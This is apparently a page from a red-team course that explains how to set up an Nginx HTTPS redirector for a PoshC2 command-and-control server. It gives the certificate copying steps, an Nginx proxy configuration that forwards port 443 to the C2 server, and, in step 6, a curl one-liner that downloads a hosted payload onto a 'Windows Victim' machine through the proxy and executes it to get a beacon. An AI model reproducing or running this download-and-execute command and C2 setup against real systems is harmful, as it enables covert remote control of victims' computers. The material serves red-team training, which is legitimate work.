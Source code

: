 # How to Setup SSL in Nginx

1. First if your poshc2 is still running on port `80` we need to start a new project with using `443`
2. Now lets add our Poshc2 ssl certs from our project folder to nginx
    ```bash
    scp {posh.crt,posh.key} username@<ubuntu-proxy-ip>:.
    ```
    > **NOTE:** This command will scp both files to the users `home` folder
3. Now lets move our ssl certs from our home directory to `/etc/nginx/`
    ```bash 
    mv {posh.crt,posh.key} /etc/nginx/.
    ```
    > **NOTE:** Make sure you are in your users home folder `/home/<username>
4. Then lets move over to our ubuntu server and edit our `/etc/nginx/conf.d/lp_proxy.conf` and add our SSL rules underneath our rules for port 80 comms
    ```nginx
server {
    listen 443;
    #443 is for payload comms
    server_name <IP of Proxy Server>;

    ssl_certificate /etc/nginx/posh.crt;
    ssl_certificate_key /etc/nginx/posh.key;
    ssl on;

    location / {
        proxy_pass https://<posh-server IP>:<Posh bind port>;
    }
}
    ```

5. Now reload nginx
    ```
    systemctl restart nginx.service
    ```
6. On our Windows Victim, lets download our hosted payload through our proxy using `curl`
    ```bash
    curl -k https://<posh or proxy IP>/<poshc2-uri> -o apples.exe && .\apples.exe
    ```
7. Boom you now have a HTTPS beacon. 

## [Return to course page](README.md)